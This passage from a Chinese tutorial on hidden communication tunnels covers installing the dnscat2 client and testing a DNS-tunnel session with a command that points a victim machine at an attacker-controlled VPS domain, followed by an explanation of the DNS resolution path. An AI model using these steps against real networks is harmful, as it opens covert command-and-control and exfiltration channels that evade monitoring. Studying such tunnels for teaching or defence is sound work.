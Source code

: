 三：客户端下载安装dnscat2

客户端Windows下载的话是：https://downloads.skullsecurity.org/dnscat2/

下载地址：https://downloads.skullsecurity.org/dnscat2/dnscat2-v0.07-client-win32.zip（密码：password ）

Linux 直接下载并编译：

```
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2 /client/
make
```

四、测试是否能通信

服务端建立后，执行如下命令，测试客户端是否能与服务端通信：

```
./dnscat --dns domain=dns.saulgoodman.club
```

![](img/隐藏通信隧道基础知识/84.png)

这个时候服务端收到会话：

![](img/隐藏通信隧道基础知识/86.png)

复盘过程：目标受害者上的dnscat2指定了dns为攻击者的VPS，也就是（dns.saulgoodman.club），解析 dns.saulgoodman.club 会首先在本地dns缓存中查找，没有对应记录的时候，目标dns会从互联网上的跟dns服务器查询，dns根一看域名是 saulgoodman.club ，就会给到 saulgoodman.club 域名服务器，saulgoodman.club 域名服务器就会找 A 记录和 NS 记录。
